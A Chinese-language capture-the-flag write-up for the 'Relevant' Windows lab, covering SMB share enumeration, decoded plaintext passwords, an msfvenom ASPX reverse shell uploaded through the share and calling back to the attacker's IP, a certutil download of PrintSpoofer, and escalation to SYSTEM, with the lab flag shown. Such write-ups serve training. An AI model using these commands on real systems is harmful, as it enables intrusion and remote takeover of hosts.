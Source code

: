 # Relevant

您已被分配到需要渗透测试的客户 在 7 天内发布到生产环境中进行。

工作范围

客户端请求 工程师进行评估 提供的虚拟环境。客户要求最小 提供有关评估的信息，希望参与 从恶意行为者的眼睛进行（黑匣子渗透 测试）。客户端要求您保护两个标志（无位置） 提供）作为剥削的证据：

user.txt
root.txt
此外，客户还提供了以下范围津贴：

此服务中允许使用任何工具或技术，但我们要求您先尝试手动利用
找到并记下发现的所有漏洞
将发现的标志提交到仪表板
只有分配给计算机的 IP 地址在范围内
查找并报告所有漏洞（是的，根路径不止一条）

---

循例 nmap 扫，80的web访问不了，检索smb看看

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">smbclient</font> <font color="#9755B3">-L</font> 10.10.162.209  </pre>

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">smbclient</font> //10.10.162.209/nt4wrksv 
Password for [WORKGROUP\root]:
Try &quot;help&quot; to get a list of possible commands.
smb: \&gt; ls
  .                                   D        0  Sun Jul 26 05:46:04 2020
  ..                                  D        0  Sun Jul 26 05:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 23:15:33 2020</pre>

疑似密码，get下来后打开

是base64，解码后：

    Bob - !P@$$W0rD!123
    Bill - Juw4nnaM4n420696969!$$$

到这里线索断了，因为也没有开ssh，也没有web，我重新运行nmap，但这次我扫了全部端口，果然还有隐藏端口：

    49663/tcp open  unknown
    49667/tcp open  unknown
    49669/tcp open  unknown

使用nc、curl逐个连接看看:

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> http://10.10.162.209:49663</pre>

这个端口获得了响应

gobuster扫一波

    /aspnet_client

此外就没别的了，正当我想随便输入个错误路径时，发现没有任何错误页面和回显

随便搞了搞，会想起刚刚的smb目录，我想反正也没啥了，干脆试试，没想到又撞对了：

    http://10.10.162.209:49663/nt4wrksv/passwords.txt

居然访问到了smb的目录的文件

我们试试有没有权限写入文件

<pre>smb: \&gt; put ./passwords.txt psssss.txt
putting file ./passwords.txt as \psssss.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \&gt; ls
  .                                   D        0  Sun Dec 18 23:07:56 2022
  ..                                  D        0  Sun Dec 18 23:07:56 2022
  passwords.txt                       A       98  Sat Jul 25 23:15:33 2020
  psssss.txt                          A       98  Sun Dec 18 23:07:56 2022

		7735807 blocks of size 4096. 5136276 blocks available
</pre>

很好，那么根据一般思路，应该就是要上传个reverse shell然后在web上访问getshell

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">msfvenom</font> <font color="#9755B3">-p</font> windows/x64/shell_reverse_tcp lhost=10.11.17.14 lport=8888 <font color="#9755B3">-f</font> asp <font color="#277FFF"><b>&gt;</b></font> she11.asp </pre>

    smb: \> put ./she11.asp

开启nc监听，访问web

getshell翻车了，没事，按照已经做过的题的思路，我们换个shell后缀再尝试一下，asp不行尝试aspx

尝试这两个是因为上面gobuster扫描到的那个目录，加上是iis

    http://10.10.162.209:49663/nt4wrksv/she11.aspx

成功getshell

---

查询systeminfo和whoami /priv

    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 

SeImpersonatePrivilege，这里可以尝试模拟令牌

通过PrintSpoofer帮助我们利用

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">python3</font> <font color="#9755B3">-m</font> http.server 8000</pre>

    目标上：certutil.exe -urlcache -split -f http://10.11.17.14:8000/PrintSpoofer64.exe

<pre>C:\Windows\Temp&gt;PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system

</pre>

成功提权root

<pre>C:\Users\Administrator\Desktop&gt;type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}</pre>
